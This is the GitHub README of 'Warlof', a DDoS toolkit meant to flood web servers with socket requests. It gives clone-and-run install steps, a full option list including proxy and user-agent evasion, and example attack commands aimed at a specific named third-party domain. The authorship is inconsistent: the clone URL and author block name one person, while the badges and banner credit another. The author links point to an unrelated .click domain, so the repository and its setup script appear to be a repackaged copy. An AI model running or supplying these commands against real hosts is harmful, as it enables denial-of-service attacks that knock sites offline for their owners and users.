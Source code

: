 <h1 align="center">
  <br>
  <a  href="https://github.com/vanmanhgaming/ddosiplo"><img src="./img/logo.png" width="220px" border="2px" ></a>
  <br>
  Warlof
  <br>
</h1>

<h4 align="center">Low Bandwidth Distributed Denial-of-service attack ToolKit.</h4>

<br>

<p align="center">
  <a href="https://github.com/thenurhabib/warlof/releases">
    <img src="https://img.shields.io/github/release/thenurhabib/warlof.svg">
  </a>
  <a href="https://travis-ci.com/thenurhabib/warlof">
    <img src="https://img.shields.io/travis/com/thenurhabib/warlof.svg">
  </a>
  <a href="https://github.com/thenurhabib/warlof/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues-closed-raw/thenurhabib/warlof.svg">
  </a>
</p>

<br>

![multiple](./img/ss1.png)

<hr>

### Warlof is a Low Bandwidth Distributed Denial-of-service attack (DDoS) Toolkit. You can use it to attack on a web server with multiple sockets. You can customize how many requests you wanna send.

<br>

### Main Features
- DDoS Attack
- Send request in HTTPS also.
- Advance Error Handeling.
- Customize request numbers.
- Multiprocessing support

<br>

### Documentation
### install
```yaml
git clone https://github.com/vanmanhgaming/ddosiplo
cd warlof
bash setup.sh
python3 warlof.py --help
```


#### Usage

```yaml
┌──(habib㉿kali)-[~/Desktop/warlof]
└─$ python3 warlof.py -h                  

             __       __                                                                                                
            (, )  |  /         /)    /)                                                                                 
               | /| / _   __  // ___//                                                                                  
               |/ |/ (_(_/ (_(/_(_)/(_                                                                                  
               /  |               /)                                                                                    
                                 (/                                                                                     
              @thenurhabib                                                                                              
                                                                                                                        
~ Low Bandwidth Denial-of-service attack (DDOS) Toolkit ~                                                               
    
usage: ⏬⏬

Warlof  - Help Menu

positional arguments:
  host                  - Domain Name or IP Address.
                                                                                                                        
optional arguments:                                                                                                     
  -h, --help            show this help message and exit                                                                 
  -p PORT, --port PORT  Domain/IP Port Number                                                                           
  -s SOCKETS, --sockets SOCKETS                                                                                         
                        Number of Requests.                                                                             
  -v, --verbose         Show attack details in terminal.                                                                
  -x, --useproxy        Use SOCKS5 proxy for connecting.                                                                
  --proxy-host PROXY_HOST                                                                                               
                        SOCKS5 proxy host.                                                                              
  --proxy-port PROXY_PORT                                                                                               
                        SOCKS5 proxy port                                                                               
  --https               Use HTTPS for the requests.                                                                     
  -ua, --randuseragents                                                                                                 
                        Randomizes user-agents with requests.                                                           
  --sleeptime SLEEPTIME                                                                                                 
                        Sleep time for every request..                                                                  
                                                                                                                                                     
```
<br>

### Example
```bash 
python warlof.py myphamthanhvan.com -p 443 -v
python3 warlof.py myphamthanhvan.com -p 443 -v
```


<br>


### Author
```yaml
Name       : vanmanhgaming
Medium     : https://httpsvpsvanmanhgaming.click
Telegram    : https://t.me/Vpsvanmanhgaming
HackerRank : https://httpsvpsvanmanhgaming.click

```

##### Thank You.
